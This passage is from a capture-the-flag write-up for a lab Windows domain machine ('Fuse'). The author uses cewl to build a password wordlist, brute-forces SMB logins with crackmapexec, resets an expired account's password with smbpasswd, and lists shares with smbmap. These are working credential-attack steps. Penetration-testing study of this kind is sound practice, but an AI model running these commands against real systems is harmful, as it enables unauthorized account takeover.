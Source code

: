 Both of these services had nothing of interest. SMB had no null credentials or anything for the users, and LDAP didn't give me any more information.

### Cewl

When stuck, try everything! We have a website and we don't have any credentials, so let's try `cewl`. This tool would scrape the websites and create a wordlist that we might be able to use for brute forcing SMB with `crackmapexec`.&#x20;

```bash
cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > passwords
```

Afterwards, we can run `crackmapexec` to brute force the passwords. Out of all the failures, one stood out.

<figure><img src="../../../.gitbook/assets/image (81) (4) (2).png" alt=""><figcaption></figcaption></figure>

Seems that we have a valid expired credential here. To change passwords, we can use `smbpasswd`.

{% embed url="https://infinitelogins.com/2020/11/16/changing-active-directory-password-using-smbpasswd/" %}

We just need to change the password of the user as such:

```bash
smbpasswd -r <IP> -U bhult
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user bhult on <IP>
```

Afterwards, we can now enumerate the machine. Take note that the machine resets this password rather frequently, so enumeration needs to be quick.

### SMB + RPC Enum

Using these credentials, we can first check out the SMB shares available via `smbmap`.

```
Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        HP-MFT01                                                NO ACCESS       HP-MFT01
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```
